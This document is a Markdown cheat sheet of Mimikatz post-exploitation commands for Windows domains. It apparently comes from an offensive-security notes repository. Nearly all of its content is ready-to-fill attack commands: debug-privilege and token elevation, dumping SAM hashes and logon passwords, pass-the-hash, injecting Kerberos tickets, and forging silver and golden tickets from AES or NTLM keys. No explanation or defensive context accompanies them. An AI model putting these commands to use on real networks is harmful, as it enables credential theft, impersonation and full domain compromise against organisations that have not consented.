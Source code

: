 # Mimikatz

Post exploitation commands must be executed from SYSTEM level privileges.
- mimikatz # privilege::debug
- mimikatz # token::whoami
- mimikatz # token::elevate
- mimikatz # lsadump::sam
- mimikatz # sekurlsa::logonpasswords

## Pass The Hash

- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

## Inject generated TGS key

- mimikatz # kerberos::ptt <ticket_kirbi_file>

## Generating a silver ticket 

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

AES 128 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>


## Generating a Golden Ticket

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

AES 128 Key: 

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>





